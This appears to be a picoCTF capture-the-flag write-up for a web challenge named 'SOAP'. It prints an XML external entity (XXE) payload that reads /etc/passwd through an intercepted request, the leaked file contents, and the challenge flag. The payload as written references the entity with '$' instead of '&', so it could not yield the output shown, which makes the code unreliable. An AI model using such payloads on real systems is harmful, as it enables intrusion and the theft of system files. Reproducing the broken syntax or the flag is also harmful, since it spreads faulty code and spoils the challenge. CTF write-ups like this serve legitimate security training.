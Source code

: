 # SOAP

**100 points**

AUTHOR: GEOFFREY NJOGU

Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
Additional details will be available after launching your challenge instance.

___

I opened the website with `BurpSuite` and used proxy to see the requests to modify them.

Intercepting the request done by clicking on the `Details` button I could modify the `xml` data to perform an `XXE` attack just like the question suggests. 

*Reasource for the question:* [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) - it literally had the syntax to perform the attack, goated site.

So changing the parameters for the xml from:

```html
<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```

To:

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>$xxe;</ID></data>
```

We successfully tricked the website to show the contents of `/etc/passwd` onto the screen and instead of the details. We get:

```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

And at the bottom we can see flag is:

> picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
